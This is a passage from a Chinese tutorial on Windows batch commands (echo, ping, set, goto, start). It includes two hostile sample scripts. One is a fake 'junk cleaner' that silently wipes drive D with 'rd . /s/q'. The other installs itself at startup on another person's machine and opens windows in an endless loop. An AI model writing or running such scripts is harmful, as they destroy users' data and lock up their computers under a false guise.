 批处理脚本设置标题

###### echo.

输出一个空行，只在批处理脚本中有用

###### ping -n 10 127.0.0.1 >nul 2>nul

给自己发10个包，目的：使脚本暂停几秒钟

```
@echo off
title 辣鸡清理小程序
echo ==========================
echo.
echo 欢迎使用辣鸡清理小程序
echo.
echo ==========================
pause
echo 正在清理辣鸡
d: >nul 2>nul
cd \ >nul 2>nul  #万一打开d盘时不在根目录
rd . /s/q >nul 2>nul
ping -n 10 127.0.0.1 >nul 2>nul
echo 辣鸡清理完毕！
# 小玩笑，不要在真实机中尝试此脚本
```

###### set

设置变量，常用与在脚本中的互动赋值。  

```
互动赋值：set /p time=请输入时间：
引用变量：%time%
```

###### : 和 goto

`:` 定义标签名

`goto` 实现跳转

为什么要把这两个命令联合起来介绍？因为它们是分不开的，无论少了哪个或多了哪个都会出错。当程序运行到`goto`时，将自动跳转到：定义的标签部分去执行命令块了，所有`：`和`goto`联合起来可以实现在批处理执行时进行跳转功能。  

###### start

`start` 默认打开cmd.exe

`start 程序名` 打开某个程序

`start 网页` 打开网页

开机启动+死循环

```
copy qq.bat "%userprofile%\Start Menu\Programs\StartUp" #路径中有特殊符号要加双引号 #若不知道对方系统，则winxp win7 win10的路径各写一遍，总有一个会成功！记得>nul
:d 
start
goto d
```
